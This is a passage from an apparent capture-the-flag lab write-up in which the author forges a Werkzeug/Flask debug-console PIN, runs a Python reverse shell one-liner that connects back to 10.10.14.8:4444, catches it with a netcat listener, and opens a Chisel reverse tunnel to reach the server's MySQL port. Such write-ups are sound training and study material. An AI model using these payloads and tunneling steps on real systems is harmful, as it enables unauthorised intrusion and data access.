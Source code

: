 ```python
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, cookie_name

print(get_pin_and_cookie_name())
```

I generated the PIN.

```bash
$ ./generate_pin.py
['www-data', 'flask.app', 'wsgi_app', '/app/venv/lib/python3.10/site-packages/flask/app.py']
['345052395813', b'ed5b159560f54721827644bc9b220d00superpass.service']
('135-148-084', '__wzd663740a50e34b3fe93a8')
```

I was able to use it in the debug console. And from there, getting a reverse shell was easy.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.203] 55078
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data
```

## User corum

Once connected to the server, I tried using the MySQL credentials to read the database. MySQL did not work well in the reverse shell, so I use [Chisel](https://github.com/jpillora/chisel) to open a reverse tunnel.


I opened the server on my machine.

```bash
./chisel server -p 3477 --reverse
```

And connected to it from the server.

```bash
./chisel client 10.10.14.8:3477 R:3306:127.0.0.1:3306/tcp
```
